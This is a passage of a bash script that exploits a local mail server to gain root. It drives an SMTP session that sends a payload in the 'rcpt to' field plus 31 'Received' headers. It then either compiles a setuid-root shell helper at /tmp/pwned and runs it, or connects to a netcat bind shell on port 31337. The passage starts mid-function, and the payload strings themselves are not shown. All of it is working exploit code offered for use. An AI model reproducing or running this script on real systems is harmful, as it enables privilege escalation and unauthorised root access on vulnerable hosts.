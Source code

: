 ```bash
	read -u 3 && echo $REPLY
	echo "rcpt to:<$PAYLOAD>" >&3
	read -u 3 && echo $REPLY
	echo "data" >&3
	read -u 3 && echo $REPLY
	for i in {1..31}
	do
		echo "Received: $i" >&3
	done
	echo "." >&3
	read -u 3 && echo $REPLY
	echo "quit" >&3
	read -u 3 && echo $REPLY
}

while [ ! -z "$1" ]; do
	case $1 in
		-m) shift; METHOD="$1"; shift;;
		* ) usage
		;;
	esac
done
if [ -z $METHOD ]; then
	usage
fi

if [ $METHOD = "setuid" ]; then

	echo "Preparing setuid shell helper..."
	echo "main(){setuid(0);setgid(0);system(\"/bin/sh\");}" >/tmp/pwned.c
	gcc -o /tmp/pwned /tmp/pwned.c 2>/dev/null
	if [ $? -ne 0 ]; then
		echo "Problems compiling setuid shell helper, check your gcc."
		echo "Falling back to the /bin/sh method."
		cp /bin/sh /tmp/pwned
	fi
	echo

	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_SETUID
	exploit
	echo

	echo "Waiting 5 seconds..."
	sleep 5
	ls -l /tmp/pwned
	/tmp/pwned

elif [ $METHOD = "netcat" ]; then
	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_NETCAT
	exploit
	echo
	echo "Waiting 5 seconds..."
	sleep 5
	nc -v 127.0.0.1 31337

else
	usage
fi
EOF

bash pri.sh -m netcat
```